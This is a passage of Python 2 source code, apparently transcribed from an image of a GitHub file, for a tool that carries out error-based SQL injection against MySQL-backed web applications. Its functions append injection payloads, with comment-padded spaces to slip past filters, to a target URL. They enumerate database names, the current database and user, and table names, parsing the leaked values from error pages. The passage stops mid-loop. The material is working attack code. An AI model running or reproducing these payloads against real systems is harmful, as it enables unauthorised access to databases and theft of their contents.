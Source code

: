     for index in xrange(0,dbs_num):
        payload = "' and(select 1 from(select count(*),concat((select (select (select distinct concat(0x7e7e3a7e7e, table_schema, 0x7e7e3a7e7e) from information_schema.tables limit %d,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)--+" % index
        payload = "/**/".join(payload.split())
        db_name_url = url + payload
        response = urllib2.urlopen(db_name_url)
        html = response.read()
        db_name = re.search(r'~~:~~(.*?)~~:~~', html).group(1)
        print "\t%s" % db_name

def getCurrentDb(url):
    # print "CurrentDb is: aaaa"
    # print url

    current_db_name_url = url + "'+and(select/**/1/**/from(select/**/count(*),concat((select/**/(select/**/(select/**/concat(0x7e7e3a7e7e,/**/(select/**/database()),/**/0x7e7e3a7e7e)))/**/from/**/information_schema.tables/**/limit/**/0,1),floor(rand(0)*2))x/**/from/**/information_schema.tables/**/group/**/by/**/x)a)--+"
    response = urllib2.urlopen(current_db_name_url)
    html = response.read()
    current_db_name = re.search(r'~~:~~(.*?)~~:~~', html).group(1)
    print "Current database is: %s" % current_db_name

def getCurrentUser(url):
    db_name_url = url + "'+and(select/**/1/**/from(select/**/count(*),concat((select/**/(select/**/(select/**/concat(0x7e7e3a7e7e,/**/(select/**/user()),/**/0x7e7e3a7e7e)))/**/from/**/information_schema.tables/**/limit/**/0,1),floor(rand(0)*2))x/**/from/**/information_schema.tables/**/group/**/by/**/x)a)--+"
    response = urllib2.urlopen(db_name_url)
    html = response.read()
    user_name = re.search(r'~~:~~(.*?)~~:~~', html).group(1)
    print "Current user is: %s" % user_name

# --tables -D database url
def getAllTablesByDb(url,db_name):
    # print db_name
    # print url
    db_name_hex = "0x" + binascii.b2a_hex(db_name)
    # print db_name_hex
    tables_num_url = url + "'+and(select/**/1/**/from(select/**/count(*),concat((select/**/(select/**/(/**/select/**/concat(0x7e7e3a7e7e,/**/count(table_name),/**/0x7e7e3a7e7e)/**/from/**/information_schema.tables/**/where/**/table_schema=%s))/**/from/**/information_schema.tables/**/limit/**/0,1),floor(rand(0)*2))x/**/from/**/information_schema.tables/**/group/**/by/**/x)a)--+" % db_name_hex
    response = urllib2.urlopen(tables_num_url)
    html = response.read()
    # print html
    tables_num = int(re.search(r'~~:~~(\d*?)~~:~~', html).group(1))
    # print tables_num
    print "%s has %d table" % (db_name, tables_num)
    print "table name: "
    for index in xrange(0,tables_num):